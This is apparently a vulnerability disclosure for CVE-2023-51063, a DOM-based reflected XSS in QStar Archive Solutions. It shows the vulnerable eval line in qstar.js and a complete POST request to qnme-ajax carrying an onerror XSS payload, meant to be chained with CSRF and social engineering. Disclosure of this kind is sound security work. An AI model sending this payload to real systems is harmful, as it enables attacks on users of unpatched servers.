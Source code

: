 ## CVE-2023-51063

### Description
QStar Archive Solutions Release RELEASE_3-0 Build 7 Patch 0 was discovered to contain a DOM Based Reflected XSS vulnerability within the component `qnme-ajax?method=tree_level`.

### Vulnerability Type
XSS 

### Vendor of Product
QStar

### Affected Product Code Base
QStar Archive Solutions - Release RELEASE_3-0 Build 7 Patch 0

### Exploitation
to exploit this vulnerability, an attacker must craft a CSRF exploit and socially engineer the victim to click on a link. The CSRF exploit must have the POST request to exploit the XSS vulnerability.

### PoC

> Vulnerable Code - ./qstar.js
```js
line 256 -> return eval("("+data+")");
```

Chain your post request within a CSRF using burpsuite CSRF generator.

> HTTP Request
```
POST /qnme-ajax?method=tree_level HTTP/1.1
Host: 10.0.10.5:7777
Cookie: PHPSESSID=XXXXXXX; QNMSESSID=XXXXXXXXX; undefined=XXXXXXX; browser=2%7C2%7C3; fs_agent=1%7C2; active=fs_agent
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://10.0.10.5:7777/qnme-storage-browser
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 144
Origin: https://10.0.10.5:7777
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
Connection: close

args%5Bhelper%5D=storage_browser_agent&args%5Ba%5D=b"<img src=x onerror=alert('XSS');>&args%5Bcheck%5D=0'&args%5Bparent%5D=3'&args%5Blevel%5D=1'
```

![img1](img/img1.png)